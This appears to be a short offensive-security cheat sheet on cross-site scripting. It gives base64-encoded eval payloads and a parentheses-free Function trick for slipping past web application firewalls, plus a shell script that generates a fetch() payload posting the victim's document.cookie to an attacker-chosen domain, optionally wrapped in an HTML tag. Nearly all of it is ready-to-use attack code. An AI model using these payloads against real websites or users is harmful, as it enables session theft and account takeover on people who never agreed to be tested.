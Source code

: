 ```yaml
---
icon: js
---
```


# XSS

eval(atob(b64\_payload)) can help with using base64 to bypass WAFs in JS code context

* Comments can be used to remove `=` padding from b64 if necessary

````javascript
//eval("String" + <USER_INPUT>)
eval(atob('YWxlcnQoMSk='))
// Note above would be nested as:
eval("String" + eval(atob('YWxlcnQoMSk='))

//Avoid Parentheses 
Function`x${'eval\x28atob\x28\x27YWxlcnQoMSk=\x27\x29\x29'}x```
````

Script for generating fetch commands

```bash
#!/bin/sh

if [ $# -lt 1 ];
then
        echo "$0 target_domain html_tag";

elif [ $# -eq 1 ];
then
        target_domain=$1

cat << EOF
fetch('//$target_domain',
        {
        method: 'POST',
        mode: 'no-cors',
        body: document.cookie
});
EOF

else
        target_domain=$1
        tag=$2

cat << EOF
<$tag>
fetch('//$target_domain',
        {
        method: 'POST',
        mode: 'no-cors',
        body: document.cookie
});
</$tag>
EOF
fi


```

